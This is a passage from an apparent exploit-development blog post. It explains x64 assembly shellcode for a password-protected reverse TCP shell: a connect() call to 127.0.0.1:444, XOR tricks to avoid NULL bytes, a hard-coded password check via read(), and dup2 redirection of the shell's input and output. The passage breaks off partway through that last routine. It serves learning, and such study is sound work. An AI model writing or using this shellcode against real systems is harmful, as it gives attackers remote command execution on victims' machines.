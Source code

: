     ; invoke connect()
    syscall</code></pre><figcaption>Connection to the remote address <code>127.0.0.1:444</code></figcaption></figure><p>The peculiarity about the <em>sockaddr</em> structure is that it needs some padding bytes at the end, which are going to be <code>NULL</code> bytes.</p><p>For this reason, I decided to use the <strong>XOR</strong> operation in order to remove eventual <code>NULL</code> bytes from the shellcode, while still being able to add the required padding.</p><h3 id="password-protection">Password Protection</h3><p>I've already mentioned in the previous assignment that we can add password-protection by means of the syscall <code>read</code>, reading some bytes from the client and comparing them to a hard-coded password.</p><p>This means that after the attacker receives a callback on the TCP listener, they'll need to send the password before being able to execute commands on the remote system.</p><p>The following routines (<code>CheckPassword</code> and <code>ExitWrongPassword</code>) are copied from the previous assignment, so take a look at it for more information.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">CheckPassword:

    ; 3rd argument of read(): number of bytes to read
    add rdx, 8

    ; allocate 8 bytes on the stack for storing the password
    sub rsp, rdx

    ; 2nd argument of read(): pointer to buffer which will store the
    ; bytes received from the client
    mov rsi, rsp

    ; 1st argument of read() (client socket) shoud be unchanged (RDI)

    ; syscall read()
    xor eax, eax

    ; call read()
    syscall

    pop rbx
    mov rax, 0x0a32322174636272
    xor rax, rbx
    jz IO_Redirection

ExitWrongPassword:

    xor eax, eax
    add eax, 60
    syscall</code></pre><figcaption>Routine for validating the password</figcaption></figure><h3 id="io-redirection">I/O Redirection</h3><p>Before effectively spawning a shell, you need to redirect input, output, and errors too.</p><p>This way, when the attacker send some input to the TCP listener, data will be treated as input for the spawned shell. Same thing goes for output and errors.</p><p>You can achieve this type of redirection through the syscall <code>dup2</code>:</p><figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/dup.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">dup(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a></figure><p>Follows the assembly code for this function:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">IO_Redirection:

    xor ecx, ecx
    mul rcx
    add ecx, 2

DuplicateFileDescriptor:

    ; 1st argument of dup2(), file descriptor of the client socket, should be unchanged (RDI)
    ; 2nd argument of dup2(): file descriptor to redirect: stdin/stdout/stderr
    ; in this case the value is stored inside RCX
    ; - 2 (sterr)
    ; - 1 (stdout)
    ; - 0 (stdin)
    push rcx
    